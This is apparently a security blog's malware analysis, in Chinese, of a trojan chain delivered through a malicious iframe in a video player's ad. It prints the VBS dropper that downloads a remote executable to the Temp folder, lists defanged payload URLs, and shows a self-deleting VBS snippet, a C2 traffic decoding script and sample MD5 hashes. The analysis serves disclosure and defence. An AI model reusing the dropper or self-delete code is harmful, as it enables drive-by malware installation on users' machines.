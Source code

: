 # 来自播放器的你——“中国插件联盟”木马分析

0x00 前言
=======

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/af7d682f36d6bcee3374ede4f3ff934ac0573225.jpg)

图：播放器挂马行为链

在国内流行的影音播放器客户端内嵌广告中，有一部分来自广告联盟和各种营销平台。在搜狐影音展示的一个私服广告页面中，我们监测到一个恶意的iframe标签，标签内容带有一段vbs脚本。

0x01  vbs脚本
===========

* * *

该脚本的作用是将远程服务器上的svchost.exe程序重命名为putty.exe（一个下载者）文件：

```
1: Set xPost=createObject("Microsoft.XMLHTTP") 
2: xPost.Open "GET","http://183.xxx.80.93:3389/svchost.exe",0 
3: xPost.Send() 
4: set sGet=createObject("ADODB.Stream") 
5: sGet.Mode=3 
6: sGet.Type=1 
7: sGet.Open() 
8: sGet.Write xPost.ResponseBody 
9: sGet.SaveToFile "C:\Windows\Temp\putty.exe",2
10: Set xPost=createObject("Microsoft.XMLHTTP") 
11: xPost.Open "GET","http://183.xxx.80.93:3377/svchost.exe",0 
12: xPost.Send() 
13: set sGet=createObject("ADODB.Stream") 
14: sGet.Mode=3 
15: sGet.Type=1 
16: sGet.Open() 
17: sGet.Write xPost.ResponseBody 
18: sGet.SaveToFile "C:\Windows\Temp\putty.exe",2

```

0x02 putty.exe程序分析
==================

* * *

读取远程服务器上的txt文档，进行批量下载

读取hxxp://txt.ichajianlianmeng.com:88/1001.txt页面的内容，然后进行下载。调用用InternetConnectA建立远程访问

![enter image description here](http://drops.javaweb.org/uploads/images/84b0acc367efb326321ff373fb738d6712c6cacc.jpg)

通过httpOpenRequestA和HttpSendRequestA创建请求并发送请求到HTTP服务器：

![enter image description here](http://drops.javaweb.org/uploads/images/cf559d262afd813f9173bfad89638720735fd0da.jpg)

读取到远程服务器中的txt保存的内容(该文件中的内容经常变动，一段时间能捕获到远控木马。)

```
hxxp://down.ichajianlianmeng.com:888/sie.exe
hxxp://www.yczuowenwang.com/xp.exe
hxxp://cdn.yuu361.com/download/Fresh_20i5_052039fc.exe
hxxp://down.woka123.cn/qudao/lol/dmxyxhh_504.exe
hxxp://down.biomall.org.cn/meng/up/niutu410202.exe
hxxp://down.nvjay.com:6677/huajun/huajun_15-8.exe
hxxp://down.ichajianlianmeng.com:888/59801_6789_sd1.exe
hxxp://down.sushouspell.com/sushou/sw/-2208_1_ss.exe
hxxp://download.suxiazai.com/for_down/2013/install1552262.exe

```

通过InternetReadFile依次读取上面链接的内容到程序中：

![enter image description here](http://drops.javaweb.org/uploads/images/7c759d245cad389ccf76f2bdaf64f158725e98ae.jpg)

创建文件、写入数据、执行该程序：

![enter image description here](http://drops.javaweb.org/uploads/images/e69e1712c5cc15eb71501b094cca9031ca0da73b.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/facaf7b9edb7e234eee8617081a029a0abb0768f.jpg)

后面就循环读取完链接中的内容并创建进程，第一轮下载就完毕了：

![enter image description here](http://drops.javaweb.org/uploads/images/769a78cc6dc3faea5861c9bb445527a2b695a0b6.jpg)

中间会创建一个空的MD5文件，该文件只是用来做标记，如果再次运行这个下载者就不再进行下载了：

![enter image description here](http://drops.javaweb.org/uploads/images/68562515dfc72df22b9bc67297eacbcab3462ca3.jpg)

0x03 sie.exe---|下载者里的下载者
========================

* * *

木马就像混黑社会似的，也喜欢打群架，这个下载者又放出一个下载者，两者的功能和实现都一样，这里就不再重复分析了。

第二轮下载通过访问hxxp://txt.ichajianlianmeng.com:88/siedown.txt文件中的以下链接进行下载：

```
1: http://down.meituview.com/MTViewbuildmtview_116.exe
2: #
3: http://down.secaikan.com/sckt/jm/setup_sc150002.exe
4: #
5: http://down.shkbx.com/SC_rg0cfc_xt2005_1.exe
6: #
7: http://down.shkbx.com/SC_rg0cfc_xt2000_1.exe
8: #
9: http://down.woka123.cn/qudao/lol/dmxyxhh_505.exe
10: #
11: http://down.sou2v.com/UserFiles/install_107_1a.exe
12: #
13: http://down.sushouspell.com/sushou/sw/-2208_1_ss.exe

```

然后得到以下文件：

![enter image description here](http://drops.javaweb.org/uploads/images/b8e28582e66f6cec182c572d1c0e1bd640eba989.jpg)

如果中招，电脑会变成如下样子。重启后桌面图标还会更多一些，为照顾密集恐惧症患者，这里不再贴出：

![enter image description here](http://drops.javaweb.org/uploads/images/29935bb410d836678cfcb0def87a40e6fcb4e6d3.jpg)

0x04 xx360.exe远控木马
==================

* * *

和所有木马作者一样，“中国插件联盟”对360的仇恨也是深入骨髓。再看看该下载者放出的远控木马（xx360）。

通过乱序字符串拼接的方式获取到即将创建文件的路径：

![enter image description here](http://drops.javaweb.org/uploads/images/630075fe6c73717e4cf7ad4466d34f06c85ec23b.jpg)

创建文件、访问hxxp://61.160.195.24:666/NetSyst81.dll并读取数据到内存中

![enter image description here](http://drops.javaweb.org/uploads/images/59108ccdecd909e81966a026306dfb012519176a.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/bfb5c0442f54381ee7a87bb8bc9cad5f2ddc300f.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/e48b2cda7bfabe5564e24bfc7ef6bc7d22985cb8.jpg)

将刚刚读取到的数据写入NetSys.dll文件中

![enter image description here](http://drops.javaweb.org/uploads/images/009141b24d43aac5a7b26adb6c8e98a0dc950111.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/66898cfa42fc06c2d7e80deb627ada5c44125f77.jpg)

读取NetSys.dll中的内容，并在内存再申请空间，解密刚刚获取到的NetSys.dll文件，解密后获得一个PE结构的文件(利用这样的方法迷惑杀毒软件)：

![enter image description here](http://drops.javaweb.org/uploads/images/6fc6e153a78b555ba08d3446359d97fa43b98d25.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/2e09c8407a35ab82db7a79f582d69d6a23d00d1b.jpg)

创建并执行Terms.EXE.exe文件：

![enter image description here](http://drops.javaweb.org/uploads/images/2029b7c467536750fdf3dd110a34949e5b68b40b.jpg)

创建注册表和服务，达到隐藏和长期驻扎在用户电脑里而且开机自启动：

![enter image description here](http://drops.javaweb.org/uploads/images/a8720848d0b1e074cdffed3c1679791e3a71d192.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/540c83255d1b5ec5e319e3351dcbaa9b5177e732.jpg)

释放vbs文件，删除自身，使自己隐藏起来：

```
1: dim wsh
2: On Error Resume Next
3: set wsh=createObject("WScript.Shell")
4: Set objFSO = CreateObject("Scripting.FileSystemObject")
5: wscript.sleep 1000
6: objFSO.DeleteFile("C:\Documents and Settings\Administrator\桌面\360.exe"), True
7: createobject("scripting.filesystemobject").deletefile wscript.scriptfullname      

```

对远控抓包分析（原来的远控木马已经不能连接上了，这里把自己的主机配置成该目标程序），一看就是zlib格式的，前面就是一个头，截取后面的拿去python脚本里跑一跑：

![enter image description here](http://drops.javaweb.org/uploads/images/08da5d60e1653e5c01299f40dfb018f7e96bc8df.jpg)

用Python解密后，看到自己电脑的操作系统版本，以及用户名，还有上线时间了

```
1: a = 'b313640002154620310788598118c4d6e062606002d2c1a9456599c9a90a0189c9d90ac60c7407cc208211e8220510e3c00ac60686ff20b137f68c50150220820b44241695649416eb1a1a269ba6985b1a32182d3c68ac676ce4ee51c56070e68dc1a98d26e6dbaf31d88459e8991bda2904c71b1a19181b98321819189aea1a98e91a1a29181a5a9918321c5973e2fcf66bd75f329cdbb27dd1f96b0a0c0029dd29b0'
2: import codecs
3: b = codecs.decode(a, 'hex_codec')
4: zlib.decompress(b, -8)

```

![enter image description here](http://drops.javaweb.org/uploads/images/2fe2e046f5dba1118f07cd6e36504083ebbdf148.jpg)

0x05 部分样本信息
===========

* * *

以下是通过“中国插件联盟”下载者捕获到的文件MD5。由于该远程服务器上的数据包在不断更新，获取到的安装包有很大量，以下只是其中一部分：

```
1: e3198f710f307e16413cd7d599f971ebc
2: e3198f710f307e16413cd7d599f971eb
3: 1552ccfa8cef81056d5c23d167cafd19c
4: 1552ccfa8cef81056d5c23d167cafd19
5: bba33d5501a780c392e4da520506da25
6: 6b08cdde7530efab0a9a5275ff4867b3
7: abba9c49e181f27b4f387ab88c505646
8: a22e31255f3092f4d1b429d76976ba0f
9: 8268182d660f2d72c05ff3c2bec90f61
10: 8910b238873a26f76854c102eab68673
11: 2a011d1c0ad02a9acf5315ccb7657713
12: e41c325df557e54ab95ff5dc81abfd8c
13: 20d6852156af4db9cac546e666a436ff
14: a22e31255f3092f4d1b429d76976ba0f
15: e0126226ff5a65b283db12d02ccc5a1d
16: 27c38edd7fd7c8c2eeddac457a407c0f
17: 8fa79dd7f1ba8b047862a904c69d40da
18: e94591e1dd94d0ea6fe2f03d9cdde05c
19: 6d0678e31452aafd6aee2c4947b4ef48
20: 6a5ab49d61623e22618e8b9c4904e85f
21: 45529e071f7f5d5b05705a9e35c5ddab
22: 5312719ecc909d4c47452eacc8452c73
23: 5312719ecc909d4c47452eacc8452c73
```